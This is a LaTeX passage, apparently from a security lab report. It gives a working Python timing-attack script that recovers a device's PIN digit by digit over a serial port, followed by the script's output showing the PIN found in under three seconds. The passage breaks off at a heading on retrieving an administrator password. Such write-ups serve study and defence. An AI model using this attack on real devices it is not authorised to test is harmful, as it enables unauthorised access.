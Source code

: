
\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=python,
    caption={Timig attack on PIN},
    captionpos=b,
    label={fig:timing-attack}
  ]
  with serial.Serial('/dev/cu.usbserial-142210', 9600, timeout=1) as ser:

    # At the beginning send some random data to make sure connection works.
    for _ in range(2):
      ser.write(b'aaa')
      ser.read(28)

    prefix = b''

    attack_start = time.time()

    # For each iteration add suffixes, start with 000, then 00, and 0
    # {0..9}000, X{0..9}00, XY{0..9}0
    # where X, Y are found numbers.
    suffixes = (b'0' * size for size in range(3, -1, -1))
    for suffix in suffixes:
      times = {}

      for idx in map(str, range(10)):
        value = prefix + idx.encode('utf-8') + suffix
        print(value, end='\r', flush=True)
        ser.write(value)
        start = time.time()
        ser.read(28)
        # Log response time for each number.
        times[idx] = time.time() - start

      # Choose number for which the response time was highest.
      number = max(times.keys(), key=lambda e: times[e])

      # Add found number to previously found numbers.
      prefix += number.encode('utf-8')


  print(f'{prefix.decode()} found in {time.time() - attack_start:.4}s.')

  \end{lstlisting}
\end{minipage}


\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Output of timing attack program.},
    captionpos=b,
    label={fig:master-timing-result}
  ]
>>>  python3 timing_pin.py
5789 found in 2.833s.
  \end{lstlisting}
  \end{minipage}

\subsubsection{Retreiving administrator password}

